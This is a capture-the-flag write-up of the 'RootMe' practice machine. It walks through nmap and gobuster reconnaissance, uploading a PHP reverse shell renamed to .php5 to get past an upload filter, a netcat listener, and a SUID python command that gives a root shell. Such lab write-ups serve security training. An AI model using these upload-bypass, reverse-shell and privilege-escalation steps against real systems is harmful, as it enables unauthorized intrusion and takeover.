 # RootMe writeup

## Task 2 - Reconnaissance

First, we try to ping the machine. 

<code>

    PING 10.10.125.204 (10.10.125.204) 56(84) bytes of data.
    64 bytes from 10.10.125.204: icmp_seq=41 ttl=63 time=73.7 ms
</code>

From the ttl value, we can deduce that is a Linux machine (for Windows it's ttl=127). 

Now, to find the services exposed by the machine and the open ports, we can use a **nmap** scan: 

``nmap -sV -sC -oA nmap/initial 10.10.125.204``

As result we obtain: 

<code>

    Nmap scan report for 10.10.125.204
    Host is up (0.086s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: HackIT - Home
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code>

So, there is an Apache 2.4.29 server on port 80, and also ssh running on port 22. 

We can visit the web page: 

![web page](/RootMe/site.png)

As we can see, also inspecting the page, there's nothing useful (for now). 

We can scan hidden directory using **gobuster**: 

``gobuster dir -w /home/kali/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.125.204 -o gobusterCommonRoot.txt``

As result we obtain: 

![gobuster](/RootMe/gobuster.png)

The most interesting directory is */panel* and let's go visit it: 

![panel](/RootMe/panel.png)


## Task 3 - Gettin a shell

In the previous */panel* page, we are able to upload our files. So why not upload a web shell and then get a reverse shell?

If you are using Kali distribution, you can directly uoload ``/usr/share/webshells/php/php-reverse-shell.php`` file, changing the ip variable with your own ip. 

Unfortunately, there appears to be a filter on php file. 

![phpFilter](/RootMe/shell.png)

So, I try to change the file extension to *.php5*.
To obtain a reverse shell on our machine, we have to listen using netcat on port 1234 as follow: 

``nc -nlvp 1234``

The upload was successfull: 

![php5](/RootMe/shellPhp5.png)

Browsing to ``http://10.10.125.204/uploads/php-reverse-shell.php5`` we obtain our shell:

![reverse](/RootMe/reverse.png)

Let's cat user.txt flag

![flag](/RootMe/flag.png)


## Task 4 - Privilege escalation

Using ``find / -user root -perm /4000`` command, you can find files with SUID permission. To become root, we're going to use **/usr/bin/python**. 

A useful site is https://gtfobins.github.io/gtfobins/python/ that explains us how to exploit the suid above.

According to *gtfobins* we run

``python -c 'import os; os.execl("/bin/sh", "sh", "-p")'``

and now we are root of the system. So, we can cat root.txt flag. 



